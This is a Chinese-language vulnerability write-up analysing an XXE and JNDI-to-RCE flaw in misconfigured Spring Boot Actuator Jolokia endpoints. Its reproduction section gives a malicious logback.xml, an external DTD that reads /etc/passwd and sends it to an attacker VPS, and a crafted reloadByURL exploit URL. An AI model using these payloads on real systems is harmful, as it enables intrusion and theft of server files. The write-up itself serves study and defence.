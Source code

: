 Spring Boot Actuator jolokia 配置不当导致的XXE漏洞
==================================================

一、漏洞简介
------------

Spring boot 会把 **/!** 解析成
*/*，所以我们只要署恶意脚本，让被攻击服务器访问就会触发漏洞。***前提条件*****查看jolokia/list中存在的 Mbeans，是否存在logback
库提供的reloadByURL方法**

    https://www.0-sec.org:9090/jolokia/list

![4140320665.png](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId22.png)

二、漏洞影响
------------

Spring Boot 2.x

三、复现过程
------------

### 漏洞分析

#### 触发流程

**Spring-boot-actuator**-\>**Jolokia**-\>**Logback**-\>**JNDI**-\>**Rce**

可以在 **JolokiaMvcEndpoint** 类中先看看 **jolokia** 是如何注册的，如下

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId27.png)

只要是 **/jolokia** 为第一个 **path**
节点的，都会进入它的执行逻辑中，可以一直跟进到**org.jolokia.http.HttpRequestHandler\#handleGetRequest**
里

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId28.png)

在上图红框流程中，先对 **path** 做 **/** 切割分组，不过可以 **1!/2**
这样能够保留 **/** 符号，后边用得到可以根据 **path** 节点新建 **JmxRequest** 对象大致如下图所示，有这么些类别可以指定

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId29.png)

我们主要观察 exec 类型的，它对应 org.jolokia.request.JmxExecRequest
类型，在它被创建时，会调用父类 org.jolokia.request.JmxObjectNameRequest
的构造函数，如下所示

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId30.png)

跟进 initObjectName 函数，如下

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId31.png)

如上图，这里将 exec 后面的第一个 path 节点带进了
javax.management.ObjectName 构造函数中

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId32.png)

根据上图中的注释描述，可以根据一个字符串（对象名称的字符串表示形式）创建一个
ObjectName 对象，这个对象和后面的反射执行指定函数大有关系

然后将 path 的下一个节点赋值到 JmxExecRequst 的 operation
属性上，将剩余的 path 节点作为 List 赋值给 arguments 属性

至此 JmxRequest 创建完毕，进入
org.jolokia.http.HttpRequestHandler\#executeRequest
执行流程当中，其中很多部分就不详细跟踪，大致是又根据 exec 类型创建了一个
org.jolokia.handler.ExecHandler 对象

看见poc很好奇参数转换过程是怎么样的

直接进入到 ExecHandler 的 doHandRequest 当中

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId33.png)

如上图，就是将 JmxExecRequst 中的 operation
做参数类型鉴定，然后根据目标函数需要的参数类型，将 arguments
转换成对应类型，最后执行 server.invoke
的调用，这个调用就是执行我们指定的类中的指定的函数，那这里是不是能够任意类和任意函数都能执行呢，不是的，需要提前注册，注册的内容可以通过
`/jolokia/list` 查看

ch.qos.logback.classic.jmx.JMXConfigurator
就是能够调用的类之一，到了这里就进入到了 `logback` 的依赖包中

简单查看一下它的函数：

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId34.png)

首先这个类名就很有意思 JMXConfigerator ，和 JMX 的配置有关，函数中也有个
reloadByURL ，从名字就能会意出通过远程加载配置文件并且重启配置23333

先查看 reloadByURL 函数

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId35.png)

如上图，它的参数是一个 URL 类型的，我们传入进去只能是
String，但是不用方，ExecHandler 的 doHandRequest
当中会对目标函数的参数类型做适配，将 String 转换成 URL 。但是这里有个问题，因为需要指定 schema ，所以必须有类似 http://
这样的开头，而我们的 path 进去以后，会用 /
切割分组的，所以就需要用到前面的流程中对 uri
的处理过程，只需要这样请求就好： `http:!/!/`

跟入 doConfigure 函数

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId36.png)

从 url 获取返回流传入下一个 doConfigure 函数，这里也能 ssrf 的跟进函数如下：

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId37.png)

继续跟进上图中的红色方框如下

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId38.png)

如上图所示，在调用 recordEvents
的时候带入了输入流，这个输入流是我们可控的，即在自己服务器上放置的 xml
文件， xml 解析的过程就是发生在 recordEvents
的执行过程中，而后红框的调用，是对已经解析完成的内容进行一定的逻辑操作，然后重载配置，后面的过程就不分析了，简单的去看一下
recordEvents 执行过程，如下

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId39.png)

很简单，build 完成后直接 parse，那我们查看一下 build
的时候是否有做防护，如下

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId40.png)

什么防护和限制都莫得，所以这里也可以造成 xxe

那么到现在为止，只是梳理出来了 xxe 的触发，rce 呢不方，我们查一查 logback insertFormJNDI 标签啥

![](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId41.png)

其中的 env-entry-name 就是指向 jndi
的服务器地址，那么这里我们可以换成自己的恶意 jndi 服务器地址，通过 jndi
触发 java 反序列化，最终导致 RCE

### 漏洞复现

-   在VPS上创建logback.xml，logback中填写jndi服务，当调用时直接触发恶意class。

```{=html}
<!-- -->
```
    <?xml version="1.0" encoding="utf-8" ?>
    <!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://vps地址/恶意文件.dtd">%remote;%int;]>
    <a>&trick;</a>

-   在VPS上创建ian.dtd

```{=html}
<!-- -->
```
    <!ENTITY % d SYSTEM "file:///etc/passwd">
    <!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">

![2.png](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId43.png)

-   开启http服务

```{=html}
<!-- -->
```
    python -m SimpleHTTPServer 80

-   远程访问logback.xml文件

```{=html}
<!-- -->
```
    https://www.0-sec.org:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS地址!/logback.xml

![1.png](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId44.png)

-   可以看到服务器上也返回了响应日志    ![3.png](./.resource/SpringBootActuatorjolokia配置不当导致的XXE漏洞/media/rId45.png){width="5.833333333333333in"
    height="0.3951881014873141in"}

参考链接
--------

> https://xz.aliyun.com/t/4258
>
> https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
